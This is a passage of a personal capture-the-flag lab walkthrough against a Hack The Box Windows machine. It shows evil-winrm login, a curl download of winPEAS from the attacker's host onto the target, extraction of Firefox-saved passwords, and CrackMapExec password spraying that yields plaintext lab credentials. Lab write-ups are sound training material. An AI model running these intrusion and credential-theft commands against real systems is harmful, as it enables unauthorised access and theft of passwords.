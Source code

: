 ![[Pasted image 20250107204914.png]]

Then use these credentials with cme to see if this user has #winrm access.

He does. 

![[Pasted image 20250107205046.png]]

Use #evilwinrm to login. 

`evil-winrm -i 10.10.11.158 -u nikk37 -p 'get_dem_girls2@yahoo.com`

![[Pasted image 20250107205301.png]]
Using #winpeas for privilege escalation

https://github.com/peass-ng/PEASS-ng/releases/tag/20250106-5a706ae2

Can download WinPEASany.exe to www directory.

From evilwinrm shell run:

`curl 10.10.14.8/winpeas.exe -o winpeas.exe`

Execute `.\winpeas.exe`

Found out there's firefox creds

![[Pasted image 20250107210128.png]]
Try running Sharpweb

https://github.com/djhohnstein/SharpWeb/releases

This tool is too outdated so manually checking the firefox profiles. 

![[Pasted image 20250107210604.png]]

Use #firepwd to extract firefox passwords. 

https://github.com/lclevy/firepwd

Running #CrackMapExec to spray passwords from Firefox to get JDGodd's password

`cme smb 10.10.11.158 -u users.txt -p pw.txt --no-bruteforce --continue-on-success`

![[Pasted image 20250108203020.png]]

No results from this query. Going to test out the username `JDGodd` with every password.

`cme smb 10.10.11.158 -u JDGodd -p pw.txt`

![[Pasted image 20250108203202.png]]

Got a login (no pw3ned = not an admin)

`JDGodd: 1Dg0dd1s@d0p3cr3@tOr`

![[Pasted image 20250108203320.png]]

Running #Bloodhound 
